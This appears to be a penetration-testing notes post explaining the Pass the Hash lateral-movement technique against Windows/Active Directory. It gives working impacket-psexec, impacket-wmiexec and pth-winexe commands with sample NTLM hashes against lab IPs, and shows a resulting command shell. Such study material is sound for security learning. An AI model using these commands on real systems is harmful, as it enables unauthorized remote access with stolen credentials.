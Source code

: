```yaml
---
description: >-
  Pass The Hash
title: Pass The Hash              # Add title here
date: 2023-02-08 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Lateral Movement]             # Change Templates to Writeup
tags: [active directory, lateral movement, pass the hash]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Pass The Hash Attack
The _Pass the Hash_ (PtH) technique allows an attacker to authenticate to a remote system or service using a user's NTLM hash instead of the associated plaintext password. Note that this will not work for Kerberos authentication but only for server or service using NTLM authentication.

Many third-party tools and frameworks use PtH to allow users to both authenticate and obtain code execution, including PsExec from Metasploit, Passing-the-hash toolkit, and [Impacket](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbclient.py). The mechanics behind them are more or less the same in that the attacker connects to the victim using the Server Message Block (SMB) protocol and performs authentication using the NTLM hash.

Most tools built to exploit PtH create and start a Windows service (for example cmd.exe or an instance of PowerShell) and communicate with it using _Named Pipes_. This is done using the Service Control ManagerAPI.

This technique requires an SMB connection through the firewall (commonly port 445), and the Windows _File and Print Sharing_ feature to be enabled. These requirements are common in internal enterprise environments.

When a connection is performed, it normally uses a special admin share called Admin$. In order to establish a connection to this share, the attacker must present valid credentials with local administrative permissions. In other words, this type of lateral movement typically requires local administrative rights.

Note that PtH uses the NTLM hash legitimately. However, the vulnerability lies in the fact that we gained unauthorized access to the password hash of a local administrator.

> To extract hashes for a pass the hash, go to [Dumping SAM](https://shuciran.github.io/posts/Dumping-SAM/) section or [DCSync](https://shuciran.github.io/posts/DCSync/) section.
{: .prompt-tip }

### Impacket-psexec
You can use impacket-psexec to pass the hash into winrm service:
```bash
impacket-psexec offsec.local/Administrator:@192.168.143.59 -hashes aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-psexec)
[[Sauna#^]]
### Impacket-wmiexec
```bash
impacket-wmiexec htb.local/Administrator@10.10.10.103 -hashes :f6b7160bfc91823792e0ac3a162c9267
```
Examples:
[Sizzle](https://shuciran.github.io/posts/Sizzle/#fnref:impacket-wmiexec)

### PtH
We can use _pth-winexe_ from the Passing-The-Hash toolkit, just as we did when we passed the hash to a non-domain joined user in the Password Attacks module:
```powershell
kali@kali:~$ pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e //10.11.0.22 cmd
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.16299.309]
(c) 2017 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```




